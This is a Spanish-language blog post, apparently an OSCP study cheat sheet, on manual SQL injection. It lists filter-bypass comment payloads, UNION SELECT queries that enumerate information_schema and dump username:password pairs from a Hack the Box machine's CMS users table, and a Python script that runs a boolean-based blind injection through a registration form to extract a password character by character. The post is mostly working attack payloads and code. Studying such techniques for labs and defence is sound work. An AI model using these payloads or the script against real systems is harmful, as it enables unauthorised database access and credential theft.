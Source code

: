 ```yaml
---
layout: post
author: Sergio Salgado
---
```


## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#identificar_la_inyeccion">Identificar la inyeccion</a>
- <a href="#consultas_basicas">Consultas basicas</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
El objetivo de este post es agilizar la busqueda de posibles entradas en inyecciones posibles que he visto para entrar en sql y poder tambien almacenar descriptivamente la estructura de sql para enumerar informacion de las bases de datos; ya que en el OSCP no esta permitido el uso de sqlmap y asi tambien ayudarme en la practica de esta intrusion.

## [](#header-2)<a id="identificar_la_inyeccion">Identificar la inyeccion</a>
 En esta seccion pondre algunas de las tipicas formas de pasar algunos filtros para las inyecciones de SQL

 ```s
 ' -- -
 )' -- -

'; #

  ' #
 )' #

  ' ;
 )' ;

 -- -Para obtener el numero de columnas podemos intentar un 
 ') order by 3 -- -
 
 ```

## [](#header-2)<a id="consultas_basicas">Consultas basicas</a>


El siguiente ejemplo es aplicable en la maquina Overflow de Hack the Box.

En este caso la informacion se listara en el campo 3, ya que es el que esta libre para mostrar la informacion.

 ```SQL
-- - Para listar las bases de datos podemos hacer un:

-- - Para listar las tablas dentro de una bd podemos hacer un:
union select 1,2,table_name from information_schema.tables where table_schema=\"cmsmsbd"\ limit {numero de posicion de la tabla},1-- -

-- - Para listar las columnas dentro de una tabla podemos hacer un:
union select 1,2,column_name from information_schema.columns where table_schema=\"cmsmsbd"\ and table_name=\"cms_users"\ limit {numero de posicion de la columna},1-- -

-- - Para listar los datos de una columna dentro de un mismo campo podemos hacer un:
union select 1,2,group_concat(username, 0x3a, password) from cmsmsdb.cms_users -- -
union select 1,2,sitepref_value from cmsmsdb.cms_siteprefs -- -

-- - Para listar la informacion de una tabla completa 
select * from tablename;
 ```

Programa de Python para encontrar contrasenas

```py
import json
import requests

def sql_injection_advance_5():
    alphabet_index = 0
    alphabet = 'abcdefghijklmnopqrstuvxyz'
    password_index = 0
    password = ''

    headers = {
        'Cookie': ''
    }

    while True:
        payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])

        data = {
            'username_reg' : payload,
            'email_reg': 'a@a',
            'password_reg': 'a',
            'confirm_password_reg': 'a'
        }

        r = requests.put(LINK, headers=headers, data=data)

        try:
            response = json.loads(r.text)
        except:
            print("Error en JSESSIONID, lo encontraras cuando estes logeado")
            return
        
        if "already exists please try to register with a diferent username" not in response['feedback']:
            alphabet_index += 1
            if alphabet_index > len(alphabet) - 1:
                return
        else:
            password += alphabet[alphabet_index]
            print(password)
            alphabet_index = 0
            password_index += 1

sql_injection_advance_5()
```